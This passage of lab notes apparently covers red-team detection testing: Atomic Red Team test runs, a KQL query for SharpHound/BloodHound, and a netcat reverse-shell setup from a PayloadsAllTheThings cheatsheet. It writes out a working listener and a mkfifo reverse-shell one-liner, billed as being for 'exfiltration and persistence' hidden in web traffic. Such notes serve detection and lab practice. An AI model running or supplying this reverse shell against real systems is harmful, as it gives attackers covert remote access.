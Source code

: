 *** Your need to start IE first so the test can call IE (yep)

```
Invoke-AtomicTest T1071.001 -v
```

Expected results are :

> Nothing... We need to create a custom rule! More to come...


## ATOMIC RED TEAM - T1059.001 - Command and Scripting Interpreter: PowerShell
<https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1059.001/T1059.001.md>

Thanks to <https://systemweakness.com/atomic-red-team-3-detecting-bloodhound-using-the-download-cradle-in-elk-siem-bc6960cb4066>

```
Invoke-AtomicTest T1059.001 -v
```

Expected results are :

> KQL = message: (SharpHound or BloodHound)  More to come...





Reference : <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd>

# CAN WE CONNECT TO Internet
```
nc google.com 80
GET /
```

# REVERSE SHELL FOR EXFILTRATION AND PERSISTENCE
| Always try to use a web port to hide ine the usual traffic

## On the attacker system
| The first step is to start a listener on the attacker box, so the victim will connect (reverse = from the victim to the attacker outside your network)
| No need to specify the ip adress as it will bind to 0.0.0.0
```
#ufw allow 8080
#service ufw restart
nc -nlvp 8080
```

## On the victim system (A310)
| The second step is to connect to the attacker and give acces to the victim shell
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 8080 >/tmp/f
```
